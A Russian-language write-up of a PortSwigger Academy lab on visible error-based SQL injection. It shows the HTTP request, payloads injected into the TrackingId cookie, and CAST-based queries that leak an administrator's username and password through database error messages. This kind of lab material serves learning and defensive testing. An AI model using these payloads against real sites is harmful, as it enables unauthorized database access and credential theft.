 ```yaml
---
title: "Visible error-based SQL injection"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: "union sqli"
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based"
---
```


## Scope

```
https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
```

В данной лабе присутствует **Error based  SQL injection** в параметре `Cookie`. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Так как уязвимость в `Cookie`, то возьму `GET`-запрос с выставленными значениями.

```http
GET / HTTP/2
Host: 0a75008704f2164580726c3600ac0013.web-security-academy.net
Cookie: TrackingId=dUrA4au9zQX6dlb5; session=5UhSQKjfJwXutcIvFyn3RNseuyAD7ybb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Скорее всего уязвимым является параметр `TrackingId`. Подберу обрамелние и пейлоад:

```
dUrA4au9zQX6dlb5'-- -Error
```

Я получил следующую ошибку с описанием:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/1.png){: height="200" .align-center}

Из текста видно, что для обрамления используются одинарные кавычки. Тогда подберу пейлоад:

```
dUrA4au9zQX6dlb5' or false-- -Ok
dUrA4au9zQX6dlb5' or true-- -Ok
dUrA4au9zQX6dlb5' and false-- -Ok
dUrA4au9zQX6dlb5' and true-- -Ok
```

Обрамление работает, но содержимое не отображается. Попробую специально вызывать ошибку с помощью `CAST`:

```
dUrA4au9zQX6dlb5' and 1=CAST((SELECT 'a') AS int)-- -Error
```

Я получил следующую ошибку:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/2.png){: height="200" .align-center}

Попробую получить имена пользователей:

```
' and 1=CAST((SELECT username FROM users) AS int)-- -Error
```

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/3.png){: height="200" .align-center}

Из сообщения видно, что в БД лежит больше одного логина, поэтому я использую `LIMIT`, чтобы получать значения по одному:

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

Получил следующий ответ:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/4.png){: height="200" .align-center}

Получу пароль таким же образом:

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/5.png){: height="200" .align-center}

Пароль получен: `oar4hhxs5cflalzuprmh`. Попробую зайти в аккаунт администратора:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/6.png){: height="200" .align-center}

Лаба решена:3

